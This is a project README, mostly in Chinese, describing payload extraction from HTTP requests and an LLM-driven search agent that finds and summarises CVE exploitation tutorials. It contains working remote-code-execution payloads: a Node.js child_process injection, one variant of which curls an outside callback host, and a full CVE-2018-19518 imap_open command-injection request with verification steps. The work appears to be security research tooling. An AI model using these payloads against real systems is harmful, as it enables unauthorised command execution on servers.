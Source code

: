 # README

## 任务描述

现在已经完成了payload的提取，对每个HTTP request，从中提取到payload行

```HTTP
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

```json
{
  "payloads": [
    "POST /checkValid HTTP/1.1",
    "document=this.constructor.constructor(\"return process\")().mainModule.require(\"child_process\").execSync(\"curl <interactsh-url>\")",
  
  ]
}
```

现在在做搜索代理，workflow如下：

1. nmap检查服务版本
2. 将**服务版本+CVE+README+exploitation example**作为关键词进行网页检索
3. 大模型**过滤+总结**并输出检索结果:

## CVE Exploitation Tutorial

CVE-2018-19518 is a remote command execution vulnerability in PHP's IMAP extension, specifically exploiting the `imap_open` function. Attackers can execute arbitrary commands via specially crafted IMAP commands. Below is the exploitation method:

### Exploitation Steps:

1. **Craft a Malicious IMAP Command**: The vulnerability allows attackers to inject commands via the `hostname` parameter in the `imap_open` function. The `hostname` parameter is manipulated to include a command injection payload.
2. **Send a Malicious HTTP Request**: The following HTTP POST request can be used to exploit the vulnerability. The payload is base64-encoded to bypass potential filtering:

   ```http

   POST / HTTP/1.1

   Host: your-ip

   Accept-Encoding: gzip, deflate

   Accept: */*

   Accept-Language: en

   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

   Connection: close

   Content-Type: application/x-www-form-urlencoded

   Content-Length: 125


   hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222

   ```

   - The payload decodes to `echo '1234567890'>/tmp/test0001`, which creates a file `/tmp/test0001` with the content `1234567890`.
3. **Verify Exploitation**: After sending the request, verify the command execution by checking if the file `/tmp/test0001` exists on the target system.

### Notes:

- The vulnerability arises because the `imap_open` function in PHP's IMAP extension calls `rsh` (or `ssh` in Debian/Ubuntu systems) to connect to remote shells. The `-oProxyCommand` parameter in `ssh` allows command injection.
- This exploit requires the target system to have the IMAP extension enabled and the `imap_open` function exposed to user input.

## Reference Links

- [GitHub - vulhub/CVE-2018-19518](https://github.com/vulhub/vulhub/blob/master/php/CVE-2018-19518/README.md)
- [PHP Bug Report #77153](https://bugs.php.net/bug.php?id=77153)
- [Exploit Repository](https://github.com/Bo0oM/PHP_imap_open_exploit)

## 遇到的问题

- 检索到的网页不一定包含渗透教程，可能只是对cve漏洞的基本描述
- 模型总结的prompt还需要优化，包括对OCR的提示词，输出结构化及优化，还要人工检查其它检索结果里是否有被我调的exploitation example
